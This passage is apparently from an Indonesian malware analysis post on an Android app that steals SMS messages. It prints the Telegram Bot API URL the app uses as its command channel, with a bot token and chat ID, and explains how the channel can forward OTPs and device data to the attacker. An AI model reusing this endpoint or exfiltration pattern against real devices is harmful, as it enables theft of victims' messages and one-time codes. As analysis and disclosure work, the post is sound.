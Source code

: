 ## Listener Tersembunyi dengan Endpoint TELEGRAM API

### Lokasi Penemuan
Saya akhirnya menelusuri folder:
```
source_code/com/example/myapplicatior/
```

Dan di dalamnya, ditemukan class-class penting seperti:
- MainActivity
- MainActivityAlias
- NotificationService
- ReceiveSms
- SendSMS
- BuildConfig

  

DAN BOOM! sorotan utama adalah aktivitas tersembunyi yang mengarah ke endpoint Telegram, dan ini adalah tanda khas malware modern yang menggunakan layanan publik untuk menyembunyikan C2 server.

### Bukti Komando C2: Telegram API
Berikut adalah endpoint yang ditemukan:

```
https://api.telegram.org/bot7735932488:AAFCdgKFbN3-MwIicBc6JY2tcEwarIfjvqg/sendMessage?parse_mode=markdown&chat_id=6112756709&text="GOTCHA!!! SIAP SIAP YA BANGGG"
```

![TELEGRAM](/images/posts/tele.png)


#### Analisis Teknis:
- Menggunakan Telegram Bot API sebagai command server
- Format URL ini menunjukkan bahwa aplikasi:
  - Mengirim data ke chat Telegram melalui bot pribadi
  - Memiliki akses ke chat_id, yang berarti mereka tahu ke mana harus mengirim notifikasi
  - Menggunakan format Markdown (sintaks formatting Telegram)
  - sendMessage menunjukkan perintah kirim aktif, bukan hanya menerima instruksi, tapi juga memberi tahu pelaku saat aksi berhasil

#### Apa Artinya?
Bot ini bisa digunakan untuk:
- Menerima OTP dari SMS (karena aplikasi punya RECEIVE_SMS dan READ_SMS)
- Meneruskan pesan notifikasi dari aplikasi ke hacker
- Mengontrol perangkat korban secara pasif
- Memberi tahu jika payload berhasil dieksekusi (dalam hal ini: "GOTCHA!!! SIAP SIAP YA BANGGG")

Bisa juga digunakan untuk mengirimkan data korban, seperti:
- Informasi perangkat (IMEI, model, versi Android)
- Isi SMS masuk
- Lokasi jika ada akses tambahan

## Identitas Pengirim & Penerima di Telegram
